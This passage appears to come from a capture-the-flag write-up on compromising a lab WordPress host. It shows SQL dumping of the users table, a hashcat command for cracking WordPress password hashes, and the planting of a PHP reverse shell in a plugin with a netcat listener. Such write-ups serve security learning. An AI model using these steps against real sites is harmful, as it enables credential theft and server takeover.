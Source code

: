 ```
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
```

(wptry_ prefixes every table name, matching its configuration in `wp-config.php`)

The `wptry_users` looks juicy.

```sql
SELECT * FROM wptry_users
```

And we notice two entries and three interesting columns: `ID`, `user_login` and `user_pass`

```sql
SELECT ID, user_login, user_pass FROM wptry_users WHERE ID = 1;
```

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | [REDACTED]   | [REDACTED]                       |
+----+------------+------------------------------------+
```

##### Cracking Credentials

We can crack `user_pass` with `hashcat`. WordPress' hashcat mode is `400`

```bash
hashcat -m 400 -O <HASH> /path/to/rockyou.txt
```

#### Getting a Reverse Shell

And we now have the password for the user with administrative privilege on the website.

We can use PentestMonkeys classic php reverse-shell to gain access onto the machine.

I decided to edit a plugin `hello.php` for my reverse shell.

With my netcat listener:

```bash
netcat -lvnp 9999
```

And the file is located at: `https://10.10.83.190/wp-content/plugins/hello.php`

And we are on!

You can grab the flag at the only users home directory ;)

--------------------------------------------------------------------------------

### Final Thoughts and Additions

I've included my scripts with this writeup - just to automate some generic repetition - feel free to use them!
